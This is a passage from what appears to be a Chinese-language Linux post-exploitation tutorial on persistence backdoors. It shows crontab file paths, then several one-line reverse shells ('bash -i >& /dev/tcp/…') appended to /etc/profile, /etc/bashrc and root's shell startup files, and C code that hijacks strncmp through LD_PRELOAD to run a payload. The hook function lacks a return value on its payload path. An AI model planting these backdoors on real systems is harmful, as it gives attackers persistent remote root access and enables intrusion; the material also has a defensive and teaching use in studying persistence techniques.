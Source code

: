 

**由于系统的不同，crontrab定时文件位置也会不同：**

- Centos的定时任务文件在`/var/spool/cron/<username>`
- Ubuntu定时任务文件在`/var/spool/cron/crontabs/<username>`



## 5. 环境变量后门

```
echo "bash -i >& /dev/tcp/172.16.42.150/8881 0>&1" >> /etc/profile
```

切换到bash，执行source命令，或者新的终端调用到/etc/profle触发

```
[root@vuln ~]# /bin/bash
root@vuln:~# source /etc/profile
```

同理

```
echo "bash -i >& /dev/tcp/172.15.42.150/8889 0>&1" >> /etc/bashrc
echo "bash -i >& /dev/tcp/172.15.42.150/8889 0>&1" >> /root/.bash_profile
echo "bash -i >& /dev/tcp/172.15.42.150/8889 0>&1" >> /root/.bash_login
echo "bash -i >& /dev/tcp/172.15.42.150/8889 0>&1" >> /root/.profile
echo "bash -i >& /dev/tcp/172.15.42.150/8889 0>&1" >> /root/.inputrc
```





## 6. ld_preload后⻔

详细参考：https://shadowfl0w.github.io/LD-PRELOAD%E5%AD%A6%E4%B9%A0/

当我们得知了一个系统命令所调用的库函数 后，我们可以重写指定的库函数进行劫持。这里我们以 `ls` 命令为例进行演示。

首先查看 `ls` 这一系统命令会调用哪些库函数：

```
readelf -Ws /usr/bin/ls
```

选择的是 strncmp 进行Hook

- hook_strncmp.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("id");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```
